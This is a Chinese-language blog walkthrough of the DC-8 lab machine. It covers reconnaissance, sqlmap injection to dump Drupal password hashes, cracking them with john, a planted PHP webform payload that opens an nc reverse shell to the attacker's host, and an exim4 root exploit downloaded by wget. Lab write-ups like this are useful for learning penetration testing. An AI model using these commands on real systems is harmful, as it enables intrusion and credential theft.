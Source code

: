 ```yaml
---
layout: post
title: DC-8
subtitle: DC-8
date: 2025-07-17 09:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

## 信息搜集

扫描IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/WUE7BR.png)

扫描端口发现80和22端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/YDtSmm.png)

目录扫描发现登录地址 `/user/login/`

```shell
dirsearch -u http://192.168.163.131 -e* -i 200
```

![image.png](https://img.ghostliner.top/3yhHXh.png)

指纹识别，发现站点为 `Drupal 7`

```shell
whatweb -v http://192.168.163.131
```

![image.png](https://img.ghostliner.top/Ut8ZAj.png)

浏览器查看站点地址： http://192.168.163.131/?nid=1 

`nid=1'` 测试发现存在sql注入

![image.png](https://img.ghostliner.top/pJ82cf.png)
## 渗透测试

#### 数据库爆破

sqlmap爆破数据库，获取用户名密码

```shell
# 获取当前数据库
sqlmap -u http://192.168.163.131/?nid=1 --current-db --batch
# 获取数据库表
sqlmap -u http://192.168.163.131/?nid=1 -D d7db --tables
# 获取表中列
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users --columns
# 获取用户名，密码
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users -C name,pass --dump
```

数据库名：`d7db`
![image.png](https://img.ghostliner.top/c6ezx6.png)

数据库中users表的列名，发现其中有 `name`, `pass`
![image.png](https://img.ghostliner.top/V508yv.png)

获取到用户名、密码
![image.png](https://img.ghostliner.top/2Ox8LF.png)

`$S`为`Drupal`的密码哈希加密格式，尝试用 `john` 破解

```shell
echo '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z' > john.txt
echo '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF' >> john.txt
john john.txt
# turtle
```
#### 反弹shell

使用用户名：john，密码：turtle 登录成功，浏览网站

在此页面发现可以注入PHP代码： http://192.168.163.131/node/3#overlay-context=user/2&overlay=node/3/webform/configure

添加反弹shell代码

```php
<?php exec('nc -nv 192.168.163.132 4444 -c /bin/bash');?>
```

![image.png](https://img.ghostliner.top/J24lVZ.png)

kali开启监听，浏览器访问`Contact Us` 页面，提交内容后，kali成功连接到shell

![image.png](https://img.ghostliner.top/WdaAm9.png)

#### 提权

`sudo -l` 提权失败，尝试find提权

```shell
find / -user root -perm -4000 -type f 2> /dev/null
```

发现 `/usr/sbin/exim4` 

![image.png](https://img.ghostliner.top/gm1yev.png)

查看`exim4`版本为：4.89

![image.png](https://img.ghostliner.top/jwMu1W.png)

搜索相关漏洞

```shell
searchexploit exim
```

![image.png](https://img.ghostliner.top/ppHChf.png)

使用 `46996.sh`脚本，将其传输到目标机

```shell
# 复制到当前目录
searchexploit -m 46996
```

查看内容，发现两种使用方法

方法1：`-m setuid`
![image.png](https://img.ghostliner.top/CQexEH.png)

方法2：`-m netcat`
![image.png](https://img.ghostliner.top/qEb0I1.png)

将 `46996.sh`传输到目标机

```shell
# 开启http服务
python -m http.server 8000
# 目标机获取脚本
wget http://192.168.163.132:8000/46996.sh
# 添加执行权限
chmod +x 46996.sh
# 提权方法1
./46996.sh -m setuid
# 提权方法2
./46996.sh -m netcat
```

方法1提权失败
![image.png](https://img.ghostliner.top/8zuEL4.png)

方法2提权成功
![image.png](https://img.ghostliner.top/Ko5DKw.png)

#### 获取flag

root目录下获取到flag文件
![image.png](https://img.ghostliner.top/cNlIz1.png)
